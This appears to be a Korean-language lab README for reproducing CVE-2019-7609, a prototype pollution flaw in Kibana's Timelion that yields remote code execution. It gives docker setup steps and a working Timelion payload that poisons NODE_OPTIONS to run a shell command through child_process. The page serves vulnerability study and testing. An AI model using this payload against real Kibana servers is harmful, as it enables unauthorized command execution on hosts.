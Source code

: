 # Kibana Prototype Pollution Leads to Remote Code Execution (CVE-2019-7609)

[中文版本（Chinese Version）](README.zh-cn.md)

Kibana 는 Elasticsearch를 위한 오픈 소스 데이터 시각화 대시보드이다.

Kibana 5.6.15 버전과 6.6.1 버전 이전에는 Timelion 시각화에 임의 코드 실행 취약점이 존재한다.
공격자가 Timelion 어플리케이션에 접근하여 자바 스크립트 코드 실행을 할 수 있다.
이로 인해 공격자가 호스트 시스템에서 Kibana 의 프로세스 권한을 사용하여 임의의 명령을 실행할 수 있다.

참고자료:

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## Setup

환경을 설정하기 전에, 호스트 서버의 `vm.max_map_count` 를 262144 보다 크게 바꿔야 한다.:
```
sysctl -w vm.max_map_count=262144
```

그 후, Kibana 6.5.4 버전과 Elasticsearch 6.8.6 버전을 실행한다.:
```
docker compose up -d
```

## Vulnerability Reproduce

환경이 실행되면, Kibana 는 `http://your-ip:5106` 에서 실행된다.
첫 취약점은 Timeline 시각화에서 발생한다. 아래 페이로드를 입력한다.:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![](1.png)

그 후, "Canvas" 에 들어가서 `/bin/touch /tmp/success` 명령어를 실행하게 되면 `/tmp/success` 파일이 성공적으로 생성된다.:

![](2.png)
